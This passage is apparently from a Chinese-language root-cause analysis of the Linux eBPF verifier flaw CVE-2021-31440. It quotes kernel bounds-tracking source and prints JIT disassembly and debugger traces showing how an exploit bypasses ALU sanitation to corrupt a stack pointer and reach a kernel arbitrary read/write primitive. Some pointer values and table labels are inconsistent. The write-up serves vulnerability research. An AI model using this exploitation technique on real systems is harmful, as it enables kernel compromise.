            s32 true_smin = opcode == BPF_JSGT ? sval32 + 1 : sval32;
            false_reg->s32_max_value = min(false_reg->s32_max_value, false_smax);
            true_reg->s32_min_value = max(true_reg->s32_min_value, true_smin);
        } else {
            s64 false_smax = opcode == BPF_JSGT ? sval : sval - 1;
            s64 true_smin = opcode == BPF_JSGT ? sval + 1 : sval;
            false_reg->smax_value = min(false_reg->smax_value, false_smax);
            true_reg->smin_value = max(true_reg->smin_value, true_smin);
        }
        break;
    case BPF_JLE:
    case BPF_JLT:
        /* 无符号小于等于 / 小于比较 */
        if (is_jmp32) {
            u32 false_umin = opcode == BPF_JLT ? val32 : val32 + 1;
            u32 true_umax = opcode == BPF_JLT ? val32 - 1 : val32;
            false_reg->u32_min_value = max(false_reg->u32_min_value, false_umin);
            true_reg->u32_max_value = min(true_reg->u32_max_value, true_umax);
        } else {
            u64 false_umin = opcode == BPF_JLT ? val : val + 1;
            u64 true_umax = opcode == BPF_JLT ? val - 1 : val;
            false_reg->umin_value = max(false_reg->umin_value, false_umin);
            true_reg->umax_value = min(true_reg->umax_value, true_umax);
        }
        break;
    case BPF_JSLE:
    case BPF_JSLT:
        /* 有符号小于等于 / 小于比较 */
        if (is_jmp32) {
            s32 false_smin = opcode == BPF_JSLT ? sval32 : sval32 + 1;
            s32 true_smax = opcode == BPF_JSLT ? sval32 - 1 : sval32;
            false_reg->s32_min_value = max(false_reg->s32_min_value, false_smin);
            true_reg->s32_max_value = min(true_reg->s32_max_value, true_smax);
        } else {
            s64 false_smin = opcode == BPF_JSLT ? sval : sval + 1;
            s64 true_smax = opcode == BPF_JSLT ? sval - 1 : sval;
            false_reg->smin_value = max(false_reg->smin_value, false_smin);
            true_reg->smax_value = min(true_reg->smax_value, true_smax);
        }
        break;
    default:
        return;
    }

    /* 更新 var_off 并同步 32/64 位边界 */
    if (is_jmp32) {
        false_reg->var_off = tnum_or(tnum_clear_subreg(false_64off),
                         tnum_subreg(false_32off));
        true_reg->var_off = tnum_or(tnum_clear_subreg(true_64off),
                        tnum_subreg(true_32off));
        __reg_combine_32_into_64(false_reg);
        __reg_combine_32_into_64(true_reg);
    } else {
        false_reg->var_off = false_64off;
        true_reg->var_off = true_64off;
        /* 对于 64 位比较，调用 __reg_combine_64_into_32 同步 32 位边界 */
        __reg_combine_64_into_32(false_reg);
        __reg_combine_64_into_32(true_reg);
    }
}
```

`reg_set_min_max()` 在处理 64 位无符号比较（`BPF_JGT`、`BPF_JGE` 等）时，会根据比较结果分别更新 true 分支和 false 分支的 `umin_value` 和 `umax_value`。例如，对于比较 `if r6 > 0x8fffffff`：true 分支的 `umin_value` 被更新为 `0x90000000`，false 分支的 `umax_value` 被更新为 `0x8fffffff`。随后，在函数末尾对于 64 位比较（`!is_jmp32`），会调用 `__reg_combine_64_into_32()` 将更新后的 64 位边界同步到 32 位边界。正是这一同步过程因独立检查缺陷而引入了矛盾状态。

### 4-4. 缺陷函数分析

**CVE-2021-31440** 的核心缺陷位于 `__reg_combine_64_into_32()` 函数中，该函数负责从 64 位边界推导 32 位边界：

```c
static void __reg_combine_64_into_32(struct bpf_reg_state *reg)
{
    /* 先将 32 位边界初始化为无界状态 */
    __mark_reg32_unbounded(reg);

    /* 处理有符号 32 位边界：仅当 smin 和 smax 都在 s32 范围内时更新 */
    if (__reg64_bound_s32(reg->smin_value) && __reg64_bound_s32(reg->smax_value)) {
        reg->s32_min_value = (s32)reg->smin_value;
        reg->s32_max_value = (s32)reg->smax_value;
    }

    /* 缺陷点：无符号 32 位边界更新使用了独立的 if 条件。
     * 若 umin_value 在 u32 范围内，则更新 u32_min_value；
     * 若 umax_value 在 u32 范围内，则更新 u32_max_value。
     * 两个条件相互独立，允许出现 umin 在范围内而 umax 不在的情况。
     */
    if (__reg64_bound_u32(reg->umin_value))
        reg->u32_min_value = (u32)reg->umin_value;
    if (__reg64_bound_u32(reg->umax_value))
        reg->u32_max_value = (u32)reg->umax_value;

    /* 用 var_off 信息进一步精化边界 */
    __reg_deduce_bounds(reg);
    __reg_bound_offset(reg);
    __update_reg_bounds(reg);
}
```

缺陷的根源在于：当 `umin_value` 落在 32 位范围内而 `umax_value` 落在 32 位范围外时，`u32_min_value` 被更新为一个非零值，而 `u32_max_value` 保持初始的 `U32_MAX`，产生 `u32_min_value > u32_max_value` 的矛盾状态。

下图通过一个具体示例展示了这一缺陷的触发过程：



从图中可见，由于 `umin` 和 `umax` 分别独立判断，当 64 位范围跨越 32 位边界时，32 位边界被错误地精化为一个矛盾区间。这一矛盾状态随后流入边界推导与精化流水线。

### 4-5. 辅助判定与边界初始化

`__reg64_bound_u32()` 和 `__reg64_bound_s32()` 是判断 64 位值是否落在 32 位范围内的辅助函数：

```c
static bool __reg64_bound_s32(s64 a)
{
    /* 判断 a 是否严格落在有符号 32 位范围内 (S32_MIN, S32_MAX) */
    return a > S32_MIN && a < S32_MAX;
}

static bool __reg64_bound_u32(u64 a)
{
    /* 判断 a 是否严格落在无符号 32 位范围内 (U32_MIN, U32_MAX) */
    if (a > U32_MIN && a < U32_MAX)
        return true;
    return false;
}
```

注意到 `__reg64_bound_u32()` 使用 `U32_MIN`（值为 0）作为下界，这意味着值 0 不被认为在 32 位范围内。这一设计细节在特定条件下会影响边界更新逻辑——当 `umin_value = 0` 时，`u32_min_value` 不会被更新，保留初始值 0，这在一定程度上缓解了矛盾区间的产生。但当 `umin_value` 为非零正值且 `umax_value` 超出范围时，矛盾状态仍会出现。

`__mark_reg32_unbounded()` 用于将 32 位边界初始化为无界状态：

```c
static void __mark_reg32_unbounded(struct bpf_reg_state *reg)
{
    reg->s32_min_value = S32_MIN;
    reg->s32_max_value = S32_MAX;
    reg->u32_min_value = 0;
    reg->u32_max_value = U32_MAX;
}
```

该函数在 `__reg_combine_64_into_32()` 的开头被调用，意味着每次同步时都先将 32 位边界重置，然后再根据 64 位边界精化。这种“先重置再精化”的设计本意是确保 32 位边界始终从当前 64 位边界重新推导，避免残留旧值。然而，由于 `umin` 和 `umax` 的独立检查，精化过程可能产生矛盾区间。

### 4-6. 边界推导与精化流水线

`__reg_deduce_bounds()` 函数调用 32 位和 64 位的边界推导函数，利用有符号边界和无符号边界之间的相互约束来精化范围：

```c
static void __reg_deduce_bounds(struct bpf_reg_state *reg)
{
    __reg32_deduce_bounds(reg);
    __reg64_deduce_bounds(reg);
}
```

`__reg32_deduce_bounds()` 的实现如下：

```c
/* Uses signed min/max values to inform unsigned, and vice-versa */
static void __reg32_deduce_bounds(struct bpf_reg_state *reg)
{
    /* 从有符号边界学习符号信息。
     * 如果无法跨越符号边界，则有符号和无符号边界相同，合并之。
     * 这在负数情况下也成立，例如：
     * -3 s<= x s<= -1 意味着 0xf...fd u<= x u<= 0xf...ff。
     */
    if (reg->s32_min_value >= 0 || reg->s32_max_value < 0) {
        reg->s32_min_value = reg->u32_min_value =
            max_t(u32, reg->s32_min_value, reg->u32_min_value);
        reg->s32_max_value = reg->u32_max_value =
            min_t(u32, reg->s32_max_value, reg->u32_max_value);
        return;
    }

    /* 从无符号边界学习符号信息。有符号边界跨越符号边界，需要谨慎处理。 */
    if ((s32)reg->u32_max_value >= 0) {
        /* 正数区间：smin 无法学习，但 smax 为正，安全。 */
        reg->s32_min_value = reg->u32_min_value;
        reg->s32_max_value = reg->u32_max_value =
            min_t(u32, reg->s32_max_value, reg->u32_max_value);
    } else if ((s32)reg->u32_min_value < 0) {
        /* 负数区间：smax 无法学习，但 smin 为负，安全。 */
        reg->s32_min_value = reg->u32_min_value =
            max_t(u32, reg->s32_min_value, reg->u32_min_value);
        reg->s32_max_value = reg->u32_max_value;
    }
}
```

`__reg64_deduce_bounds()` 对 64 位边界执行类似的推导逻辑：

```c
static void __reg64_deduce_bounds(struct bpf_reg_state *reg)
{
    /* 从有符号边界学习符号信息 */
    if (reg->smin_value >= 0 || reg->smax_value < 0) {
        reg->smin_value = reg->umin_value = max_t(u64, reg->smin_value,
                              reg->umin_value);
        reg->smax_value = reg->umax_value = min_t(u64, reg->smax_value,
                              reg->umax_value);
        return;
    }

    /* 从无符号边界学习符号信息 */
    if ((s64)reg->umax_value >= 0) {
        reg->smin_value = reg->umin_value;
        reg->smax_value = reg->umax_value = min_t(u64, reg->smax_value,
                              reg->umax_value);
    } else if ((s64)reg->umin_value < 0) {
        reg->smin_value = reg->umin_value = max_t(u64, reg->smin_value,
                              reg->umin_value);
        reg->smax_value = reg->umax_value;
    }
}
```

`__reg_bound_offset()` 利用边界信息精化 `var_off`：

```c
/* Attempts to improve var_off based on unsigned min/max information */
static void __reg_bound_offset(struct bpf_reg_state *reg)
{
    struct tnum var64_off = tnum_intersect(reg->var_off,
                           tnum_range(reg->umin_value,
                              reg->umax_value));
    struct tnum var32_off = tnum_intersect(tnum_subreg(reg->var_off),
                        tnum_range(reg->u32_min_value,
                               reg->u32_max_value));

    reg->var_off = tnum_or(tnum_clear_subreg(var64_off), var32_off);
}
```

`__update_reg_bounds()` 从 `var_off` 反推边界值：

```c
static void __update_reg_bounds(struct bpf_reg_state *reg)
{
    __update_reg32_bounds(reg);
    __update_reg64_bounds(reg);
}
```

`__update_reg32_bounds()` 的实现细节如下：

```c
static void __update_reg32_bounds(struct bpf_reg_state *reg)
{
    struct tnum var32_off = tnum_subreg(reg->var_off);

    reg->s32_min_value = max_t(s32, reg->s32_min_value,
            var32_off.value | (var32_off.mask & S32_MIN));
    reg->s32_max_value = min_t(s32, reg->s32_max_value,
            var32_off.value | (var32_off.mask & S32_MAX));
    reg->u32_min_value = max_t(u32, reg->u32_min_value, (u32)var32_off.value);
    reg->u32_max_value = min(reg->u32_max_value,
                 (u32)(var32_off.value | var32_off.mask));
}
```

这些函数构成了一个从边界更新到 `var_off` 精化，再到边界反推更新的闭环处理流水线。当矛盾状态流入该流水线时，由于各函数均假设输入状态自洽，矛盾会被“合法化”为看似合理的寄存器状态。下图展示了这一完整调用链与数据流向：



结合此图可见，当矛盾状态（`u32_min > u32_max`）进入该流水线时，`__reg32_deduce_bounds` 中的有符号/无符号边界合并逻辑可能基于矛盾值进行错误推导；`__reg_bound_offset` 中的 `tnum_range` 可能因边界顺序异常而产生不符合实际的 `var_off`；最终 `__update_reg_bounds` 将异常 `var_off` 反推为看似合法的边界值，完成矛盾的“固化”。

### 4-7. 错误传播与状态分歧

综合上述源码分析，**CVE-2021-31440** 的完整错误传播路径可通过以下寄存器状态转换流程图清晰地展示：



错误传播的核心路径可归纳为以下四个阶段：

**阶段一：缺陷激活与矛盾生成**。在条件跳转处理中，`reg_set_min_max()` 对 64 位无符号比较进行边界更新后调用 `__reg_combine_64_into_32()`。当 `umin_value` 在 32 位范围内而 `umax_value` 在范围外时，独立检查导致 `u32_min_value > u32_max_value` 的矛盾状态。

**阶段二：矛盾传播与“合法化”**。`__reg_deduce_bounds()`、`__reg_bound_offset()` 和 `__update_reg_bounds()` 依次处理矛盾边界。由于这些函数均假设输入状态自洽，它们无法检测并纠正矛盾，反而将矛盾转化为看似合理的寄存器状态。`__reg32_deduce_bounds` 中的有符号/无符号合并逻辑以及 `__reg_bound_offset` 中的 `tnum_range` 操作，都可能基于矛盾值产生错误的精化结果。

**阶段三：状态固化与错误判定**。`__update_reg_bounds()` 基于矛盾的 `var_off` 更新边界值，将矛盾“固化”为 Verifier 后续分析所依赖的状态。此时，分歧寄存器已被错误地判定为常量 0。

**阶段四：分支剪枝与分歧形成**。在后续条件跳转处理中，`check_cond_jmp_op()` 调用 `is_branch_taken()` 进行分支预判。由于寄存器状态已错误标记为常量 0，`tnum_equals_const` 返回真，Verifier 据此剪掉本应保留的分支。最终形成 Verifier 状态与实际执行状态的分歧。

### 4-8. JIT 编译与运行时验证

前文从源码层面剖析了 Verifier 如何因 `__reg_combine_64_into_32` 的独立检查缺陷而将分歧寄存器误判为常量 0。然而，Verifier 的静态分析仅仅是 eBPF 程序生命周期的前半程——程序通过验证后，JIT 编译器将其转换为本地机器码，最终在硬件上执行。Verifier 状态与实际执行之间的分歧是否真正存在，需要在运行时层面加以验证。本节通过分析 JIT 生成的机器码及调试器追踪的寄存器状态，观察分歧如何在硬件层面逐步显现，并验证第二章所述的 ALU Sanitation 绕过模型的有效性。

以下为 JIT 编译生成的指令序列中与漏洞触发及绕过直接相关的部分（地址范围 `0xffffffffc00020a0` 至 `0xffffffffc0002198`）：

```
pwndbg> x/131i 0xffffffffc00020a0
   0xffffffffc00020a0:  data16 data16 data16 xchg ax,ax     ; 对齐填充
   0xffffffffc00020a5:  xchg   ax,ax                        ; 对齐填充
   0xffffffffc00020a7:  push   rbp                          ; 函数序言
   0xffffffffc00020a8:  mov    rbp,rsp                      ; 设置栈帧
   0xffffffffc00020ab:  sub    rsp,0x10                     ; 分配局部变量空间
   0xffffffffc00020b2:  push   rbx                          ; 保存 rbx
   0xffffffffc00020b3:  push   r13                          ; 保存 r13
   0xffffffffc00020b5:  push   r14                          ; 保存 r14
   0xffffffffc00020b7:  push   r15                          ; 保存 r15
   0xffffffffc00020b9:  mov    r14,rdi                      ; r14 = skb 指针
   0xffffffffc00020bc:  movabs r15,0xffff88800535c000       ; r15 = bpf_array 基址
   0xffffffffc00020c6:  mov    rdi,r15                      ; 参数1: bpf_array
   0xffffffffc00020c9:  mov    rsi,rbp                      ; 参数2: key 指针（栈上）
   0xffffffffc00020cc:  add    rsi,0xfffffffffffffffc       ; rsi = rbp - 4（&key）
   0xffffffffc00020d0:  mov    DWORD PTR [rbp-0x4],0x0      ; key = 0
   0xffffffffc00020d7:  add    rdi,0x110                    ; rdi = array->value（&value[0]）
   0xffffffffc00020de:  mov    eax,DWORD PTR [rsi+0x0]      ; eax = *key
   0xffffffffc00020e1:  cmp    rax,0x1                      ; 检查 key 是否 >= 1
   0xffffffffc00020e5:  jae    0xffffffffc00020f3           ; 若 key>=1 则跳转（本路径不跳）
   0xffffffffc00020e7:  and    eax,0x0                      ; eax = 0
   0xffffffffc00020ea:  shl    rax,0xd                      ; rax <<= 13
   0xffffffffc00020ee:  add    rax,rdi                      ; rax = &value[0]
   0xffffffffc00020f1:  jmp    0xffffffffc00020f5           ; 跳转至测试
   0xffffffffc00020f3:  xor    eax,eax                      ; 备用路径（未执行）
   0xffffffffc00020f5:  test   rax,rax                      ; 检查 rax 是否非零
   0xffffffffc00020f8:  jne    0xffffffffc0002103           ; 非零则跳转至主逻辑
   0xffffffffc00020fa:  pop    r15                          ; 退出：恢复寄存器
   0xffffffffc00020fc:  pop    r14
   0xffffffffc00020fe:  pop    r13
   0xffffffffc0002100:  pop    rbx
   0xffffffffc0002101:  leave
   0xffffffffc0002102:  ret
   0xffffffffc0002103:  mov    rsi,rax                      ; rsi = &value[0]
   0xffffffffc0002106:  mov    rbx,QWORD PTR [rsi+0x0]      ; rbx = value[0]（魔术值）
   0xffffffffc000210a:  cmp    rbx,0x1                      ; 比较 rbx >= 1
   0xffffffffc000210e:  jge    0xffffffffc0002114           ; 是，跳转
   0xffffffffc0002110:  xor    eax,eax                      ; 否则退出
   0xffffffffc0002112:  jmp    0xffffffffc00020fa
   0xffffffffc0002114:  mov    ecx,0x8fffffff               ; ecx = 0x8fffffff
   0xffffffffc0002119:  cmp    rbx,rcx                      ; 比较 rbx > 0x8fffffff
   0xffffffffc000211c:  ja     0xffffffffc0002122           ; 是，跳转至算术变换
   0xffffffffc000211e:  xor    eax,eax                      ; 否则退出
   0xffffffffc0002120:  jmp    0xffffffffc00020fa
   0xffffffffc0002122:  mov    ebx,ebx                      ; 截断低32位（ebx = 0x80000000）
   0xffffffffc0002124:  add    ebx,0x70000000               ; ebx += 0x70000000（=> 0xf0000000）
   0xffffffffc000212a:  shr    rbx,0x1f                     ; rbx >>= 31（=> 1）
   0xffffffffc000212e:  mov    r13,QWORD PTR [rsi+0x8]      ; r13 = value[1]（操作码）
   0xffffffffc0002132:  test   r13,r13                      ; 检查操作码
   0xffffffffc0002135:  jne    0xffffffffc00021bf           ; 若操作码非0则跳转（此处为0）
   0xffffffffc000213b:  add    rbx,0x8                      ; rbx = 1 + 8 = 9
   0xffffffffc000213f:  mov    rdx,rsi                      ; rdx = &value[0]
   0xffffffffc0002142:  add    rdx,0x40                     ; rdx = &value[0] + 0x40
   0xffffffffc0002146:  mov    QWORD PTR [rbp-0x8],0x0      ; 清零栈上临时
   0xffffffffc000214e:  mov    QWORD PTR [rbp-0x8],rdx      ; 保存指针到栈（[rbp-8] = rdx）
   0xffffffffc0002152:  mov    rdi,r14                      ; rdi = skb
   0xffffffffc0002155:  mov    esi,0x10000                  ; offset = 0x10000
   0xffffffffc000215a:  mov    rdx,rbp                      ; rdx = rbp
   0xffffffffc000215d:  add    rdx,0xfffffffffffffff0       ; rdx = rbp - 0x10（栈缓冲）
   0xffffffffc0002161:  mov    rcx,rbx                      ; rcx = 9（分歧长度）
   0xffffffffc0002164:  mov    r8d,0x1                      ; 标志
   0xffffffffc000216a:  call   0xffffffff81a34110 <bpf_skb_load_bytes_relative>
   0xffffffffc000216f:  mov    rdx,QWORD PTR [rbp-0x8]      ; 重新加载指针
   0xffffffffc0002173:  sub    rdx,0x40                     ; rdx -= 0x40（=> &value[0]）
   0xffffffffc0002177:  mov    QWORD PTR [rbp-0x8],rdx      ; 保存回栈
   0xffffffffc000217b:  mov    rdi,r14                      ; 第二次调用参数
   0xffffffffc000217e:  mov    esi,0x10000
   0xffffffffc0002183:  mov    rdx,rbp
   0xffffffffc0002186:  add    rdx,0xfffffffffffffff0
   0xffffffffc000218a:  mov    rcx,rbx                      ; rcx = 9
   0xffffffffc000218d:  mov    r8d,0x1
   0xffffffffc0002193:  call   0xffffffff81a34110 <bpf_skb_load_bytes_relative>
   0xffffffffc0002198:  mov    rdx,QWORD PTR [rbp-0x8]      ; 最终指针（现为 bpf_array 基址）
   ... 后续指令为任意读写操作，与本节漏洞触发和 ALU 绕过无直接关系，故省略 ...
```

在 `0xffffffffc0002198` 处，栈上保存的指针已成功被修改为 `0xffff88800535c000`，即 `bpf_array` 结构的起始地址。此时程序已通过两次辅助函数调用，利用分歧值 `rbx=9`（Verifier 预期 8）实现了对栈上指针的精确篡改。

以下将分段解析其中与漏洞触发及 ALU Sanitation 绕过密切相关的关键部分。

#### 4-8-1. 分歧值的运行时显现

在地址 `0xffffffffc0002103` 处，程序首先将 `rax`（`&value[0]`）移入 `rsi`，随后从 `[rsi]` 加载用户预先写入的魔术值 `0x180000000` 到 `rbx`。调试器确认了这一过程：

```
  0xffffffffc0002103    mov    rsi, rax                 RSI => 0xffff88800535c110
  0xffffffffc0002106    mov    rbx, qword ptr [rsi]     RBX => 0x180000000
```

这个值与 Verifier 静态分析时所认为的常量 0 完全不同。接下来的两条条件比较指令（`0xffffffffc000210a` 和 `0xffffffffc0002114`）对应第二章所述的边界收窄过程，Verifier 在静态分析时通过这些比较将寄存器范围逐步收紧。调试器显示它们均通过，因为 `0x180000000 >= 1` 且 `0x180000000 > 0x8fffffff`：

```
  0xffffffffc000210a    cmp    rbx, 1                   0x180000000 - 0x1
  0xffffffffc000210e  ✔ jge    0xffffffffc0002114
  0xffffffffc0002114    mov    ecx, 0x8fffffff          ECX => 0x8fffffff
  0xffffffffc0002119    cmp    rbx, rcx                 0x180000000 - 0x8fffffff
  0xffffffffc000211c  ✔ ja     0xffffffffc0002122
```

随后执行的三个连续指令（`0xffffffffc0002122`、`0xffffffffc0002124`、`0xffffffffc000212a`）完成第二章所述的算术变换，将 `0x180000000` 转换为 1：

```
 ► 0xffffffffc0002122    mov    ebx, ebx                      EBX => 0x80000000
   0xffffffffc0002124    add    ebx, 0x70000000               EBX => 0xf0000000
   0xffffffffc000212a    shr    rbx, 0x1f                     RBX => 1
```

此时 `rbx` 的运行时值为 1，而 Verifier 认为其为常量 0。这个分歧在 JIT 生成的机器码中被固化。随后程序从 `[rsi+8]` 加载操作码到 `r13`（`0xffffffffc000212e`），调试器显示 `r13 = 0`，跳转条件不满足（`0xffffffffc0002135` 的 `jne` 未跳转），程序进入泄露分支（`opcode == 0`）。

#### 4-8-2. 运行时保护绕过

泄露分支的代码位于 `0xffffffffc000213b` 至 `0xffffffffc0002198`。程序首先将分歧值 `rbx = 1` 加 8 得到 9（`0xffffffffc000213b`），并构造一个指向 `&value[0] + 0x40` 的指针保存在栈上（`0xffffffffc000213f` 至 `0xffffffffc000214e`）。调试器显示栈上保存的指针初始值为 `0xffff88800535c150`：

```
pwndbg> x/2gx 0xffffc9000025fc48
0xffffc9000025fc48:     0xffff8880052c8e00      0xffff88800535c150
```

第一次调用 `bpf_skb_load_bytes_relative`（`0xffffffffc000216a`）时，`rcx` 被设置为 9，调试器捕获的寄存器状态明确显示：

```
 ► 0xffffffffc000216a    call   0xffffffff81a34110
        rdi: 0xffff8880052c8e00
        rsi: 0x10000
        rdx: 0xffffc9000025fc48
        rcx: 9
        r8: 1
```

由于 `rcx = 9`（Verifier 预期为 8），辅助函数内部的 `memset` 多写 1 字节，将栈上相邻指针的低字节清零。调用后指针从 `0x150` 变为 `0x100`（`0xffff88800535c100`）：

```
pwndbg> x/2gx 0xffffc9000025fc48
0xffffc9000025fc48:     0xffff8880052c8e00      0xffff88800535c100
```

随后程序从栈上重新加载该指针，减去 `0x40` 得到 `0xc0`，并再次保存（`0xffffffffc000216f` 至 `0xffffffffc0002177`）。第二次调用同样以 `rcx=9` 执行（`0xffffffffc0002193`），第二次调用后指针低字节再次被清零，变为 `0xc0`（`0xffff88800535c0c0`）：

```
pwndbg> x/2gx 0xffffc9000025fc48
0xffffc9000025fc48:     0x0000000000000000      0xffff88800535c0c0
```

经过两次调用，栈上保存的指针最终被修改为 `0xffff88800535c000`，即 `bpf_array` 结构的起始地址。第三次内存访问（`0xffffffffc0002198`）时，`rdx` 已指向该地址：

```
 ► 0xffffffffc0002198    mov    rdx, qword ptr [rbp - 8]        RDX => 0xffff88800535c000
pwndbg> x/2gx 0xffffc9000025fc48
0xffffc9000025fc48:     0x0000000000000000      0xffff88800535c000
```

至此，程序已成功获得 `bpf_array` 结构基址。

上述过程中，**ALU Sanitation 机制从未被触发**，因为分歧值 `rbx` 仅作为辅助函数的参数传递，从未参与指针运算。所有指针运算均使用编译时确定的立即数偏移（如 `+0x40`、`-0x40`、`+0x110`），这些都在 Verifier 允许的范围内。辅助函数内部的 `memset` 操作不受 ALU Sanitation 约束，因此越界写得以成功。

#### 4-8-3. 运行时观察的启示

JIT 代码的运行时行为揭示了 Verifier 状态与实际执行之间的分歧如何被转化为可利用的原语。调试器追踪的每一条指令和每一个寄存器状态，都精确对应着第二章的数学推导和第三章的架构描述，形成了一条从静态缺陷到运行时利用的完整证据链：

1. **分歧值的运行时显现**：Verifier 判定 `r6=0`，而运行时 `r6` 在截断、加法、右移后实际为 1。调试器确认了 `rbx` 从 `0x180000000` 到 `1` 的完整变换过程，每一步都与第二章的数学模型一一对应。这一过程在 JIT 代码中仅用三条指令便完整实现，体现了 JIT 编译器对 Verifier 状态的绝对信任。

2. **辅助函数作为越界载体**：程序利用 `rbx=9`（Verifier 预期 8）作为长度参数，使辅助函数内部的 `memset` 多写 1 字节。调试器中的 `x/2gx` 输出记录了指针从 `0x150` → `0x100` → `0xc0` → `0x0` 的逐步篡改，最终获得 `bpf_array` 结构基址。每一次指针修改都精确对应栈上数据的变化。

3. **运行时保护完全规避**：由于分歧值从未参与指针运算，ALU Sanitation 在整个执行路径中未被触发。JIT 生成的机器码中不包含任何 ALU Sanitation 检查指令（如 `mov eax, alu_limit; sub eax, off_reg; ...`），验证了将分歧值的使用场景从指针运算转移至辅助函数参数的绕过策略。

4. **Verifier 与 JIT 的信任链**：JIT 编译器完全信赖 Verifier 的静态分析结果，在生成机器码时不会对 Verifier 判定的常量进行额外验证。这种信任机制在正常情况下是 eBPF 安全模型的核心优势，但在 Verifier 存在缺陷时，这种信任便成为漏洞利用的助燃剂——Verifier 的误判被直接编码为机器码中的常量，从而在运行时产生可观测的分歧。

这些观察综合表明，Verifier 的边界推导错误为漏洞提供了触发条件，JIT 编译器对 Verifier 状态的信任使得分歧状态在机器码层面被固化，而辅助函数间接绕过模型则为越界访问提供了可操作的原语。这三个层面——Verifier 静态分析、JIT 编译优化、运行时执行——共同构成了完整的漏洞利用链。

### 4-9. 分析总结

综合前文从源码静态分析到 JIT 运行时验证的全链条剖析，**CVE-2021-31440** 的根本成因可归纳为以下三个相互关联的层面：

**第一，32/64 位边界同步逻辑不一致。** `__reg_combine_64_into_32()` 对有符号 32 位边界采用了联合检查（`smin` 和 `smax` 均在范围内才更新），而对无符号 32 位边界采用了独立检查（`umin` 和 `umax` 分别判断）。这一设计不一致导致当 `umin` 在范围内而 `umax` 在范围外时，产生 `u32_min_value > u32_max_value` 的矛盾区间。有符号边界的正确实现表明开发者曾认识到联合检查的必要性，但无符号边界却因疏忽而未采用相同的逻辑。

**第二，边界推导与精化函数缺乏对矛盾状态的防御性处理。** `__reg_deduce_bounds()`、`__reg_bound_offset()` 和 `__update_reg_bounds()` 均假设输入的边界状态是自洽的。当矛盾状态输入时，这些函数无法检测并纠正，反而将矛盾“合法化”为看似合理的寄存器状态。这一设计缺陷使得单个函数的小错误能够沿着调用链传播并持续放大，最终在 `__update_reg_bounds` 中完成矛盾的“固化”。

**第三，分支剪枝优化过度依赖状态精确性，而 JIT 编译器又全盘接受 Verifier 的判定。** `check_cond_jmp_op()` 中的 `tnum_equals_const` 优化依赖寄存器状态的精确性。当 Verifier 误判寄存器为常量时，会错误地剪枝分支，导致后续路径探索不完整，最终形成 Verifier 与实际执行的语义分歧。而 JIT 编译器在生成机器码时完全信任 Verifier 的状态，将分歧寄存器作为常量 0 进行编译，使得运行时实际值 1 得以绕过所有安全检查。

从运行时验证的视角看，ALU Sanitation 机制虽然被设计为第二道防线，但由于漏洞利用程序将分歧值的使用场景从“指针运算”转移至“辅助函数参数”，使得 ALU Sanitation 在整个执行路径中从未被触发。这揭示了 eBPF 子系统中不同安全层之间检查范围的不一致性——Verifier 与辅助函数之间的参数校验差异，以及 ALU Sanitation 与辅助函数内部操作之间的防护盲区，共同构成了可利用的越界原语。

从修复角度看，将 `__reg_combine_64_into_32()` 中的无符号边界检查改为联合检查（同时判断 `umin` 和 `umax` 是否在 32 位范围内），可以消除矛盾区间的产生条件。这一补丁（`commit 10bf4e83167c`）从根源上解决了问题，但也反映出 Verifier 在处理跨位宽边界同步时需要更加统一的抽象框架——任何状态更新函数中的条件分支逻辑偏差，都可能导致寄存器状态与实际语义不符，进而为越界内存访问的构造提供入口。

下表总结了漏洞关键函数中缺陷存在与否的对比：

| 函数                                  | 缺陷类型                              | 是否存在问题                        |
| ------------------------------------- | ------------------------------------- | ----------------------------------- |
| `__reg64_bound_s32`（用于有符号边界） | 联合检查（`smin && smax`）            | 否（正确实现）                      |
| `__reg64_bound_u32`（用于无符号边界） | 独立检查（`umin` 和 `umax` 分别判断） | **是（缺陷所在）**                  |
| `__reg32_deduce_bounds`               | 边界互相推导                          | 受影响（矛盾状态输入时行为不确定）  |
| `__reg_bound_offset`                  | 用边界精化 var_off                    | 受影响（矛盾输入导致异常精化）      |
